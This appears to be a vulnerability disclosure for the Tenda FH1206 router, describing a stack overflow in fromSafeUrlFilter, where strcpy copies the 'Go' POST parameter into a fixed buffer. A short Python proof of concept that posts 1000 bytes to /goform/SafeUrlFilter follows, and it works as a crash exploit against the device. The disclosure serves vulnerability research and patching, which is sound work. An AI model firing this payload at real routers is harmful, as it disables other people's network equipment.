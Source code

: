 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `Go` parameter from a POST request. The statement ` strcpy(v16,v1);` leads to a buffer overflow. The user-supplied `Go` can exceed the capacity of the `v16` array, thus triggering this security vulnerability.
![image-20240802200840516](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802200840516.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeUrlFilter"
payload = b"a"*1000

data = {"Go": payload, "menufacturer": "tenda"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
